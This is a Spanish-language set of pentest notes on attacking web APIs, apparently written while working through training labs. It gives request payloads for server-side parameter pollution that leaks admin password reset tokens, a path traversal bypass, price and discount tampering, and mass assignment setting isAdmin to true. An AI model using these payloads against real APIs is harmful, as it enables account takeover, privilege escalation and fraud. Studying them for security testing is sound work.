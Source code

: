 Las API (interfaces de programación de aplicaciones) permiten que los sistemas de software y las aplicaciones se comuniquen y compartan datos. Las pruebas de API son importantes, ya que las vulnerabilidades de las API pueden socavar aspectos fundamentales de la confidencialidad, la integridad y la disponibilidad de un sitio web.

Listo vamos a tirar pequeños tips de payloads, explotaciones de esto, sin entrar en materia de profundidad, con fines de optimización enfocada en la explotación. 

### Endpoints utiles de API's forma resumida 

```
Access documentation in /api to see if it displays useful endpoints


Use OPTIONS header to see PATCHs and that stuff


Use **Content Type Converter** Extension to easilly change types to JSON or XML


search new params:
username=administrator%26x=y (&x=y)
username=administrator%23 (#) ('field' not specified may be that there are more params)
username=administrator%26field=x%23 (field is a valid parameter) (Try sending to the intruder the value of field - Select the built-in **Server-side variable names**)

Testing parameters:
Testing valid parameter values shows the original response, indicating they are valid.
username=administrator%26field=reset_token%23
-> Shows a reset passw token
Request in browser:
GET /forgot-password?reset_token=123456789&csrf=the-one-of-the-post


See if GETs and POSTs share JSON body for example (stdout of GET into stdin POST), if POST is missing chosen_discount for example, add it and update the discount to 100

```

### Endpoints utiles de API's

```
/api/books
/api/books/mystery

/api
/swagger/index.html
/openapi.json


/api/swagger/v1/users/123 //investigar sus rutas: 
	* /api/swagger/v1
	* /api/swagger
	* /api

DELETE /api/user/carlos //endoint no sanitizado

Analizar los methods HTTP permitidos. 
	/api/tasks
	* GET /api/tasks Recupera una lista de tareas
	* POST /api/tasks Crea una nueva tarea
	* DELETE /api/tasks/1

Endpoint method PATCH API JSON Allowed -  Content-Type: application/json;
PATCH /api/products/1/price
{
	"price":0
}

Encontrar otros posibles endpoints a partir de uno: 
PUT /api/user/update
	* PUT /api/user/delete
	* PUT /api/user/add 

GET /api/users/123 que retorna JSON con info juicy. (try change method)
	* PATCH /api/users/123
		{ "id": 123, 
		"name": "John Doe", 
		"email": "john@example.com", 
		"isAdmin": "true" } //elevar privilegios

PARAMETER POLLUTION SERVER SIDE `API TESTING` ->

Endpoint POST /forgot-password HTTP/2 `Truncamiento URLS con #->%23`
* csrf=VALUECSRF&username=user-victim%23 //retorna field not especified
* csrf=VALUECSRF&username=user-victim%26field=x%23 //invalid field
Interceptamos y encontramos un codigo de forgot-password.js contiene un
?reset_token=${resetToken} 
* csrf=VALUECSRF&username=administrator%26field=resetToken%23
* GET → /forgot-password?reset_token=VALUE-TOKEN //to reset pass admin

Endpoint POST /forgot-password HTTP/2 `Path Traversal bypass - truncamiento url`
->
csrf=VALUECSRF&username=../../v1/users/administrator/field/passwordResetToken%23

-------------------------------------------------------------------------------
Incluso podemos tirar de burp scanner para encontrar endpoints, o engagement tools>discover content
```


### Ataque API Endpoint asignación masiva: 

Payload Final. 

![[Pasted image 20250216113326.png]]

<hr>

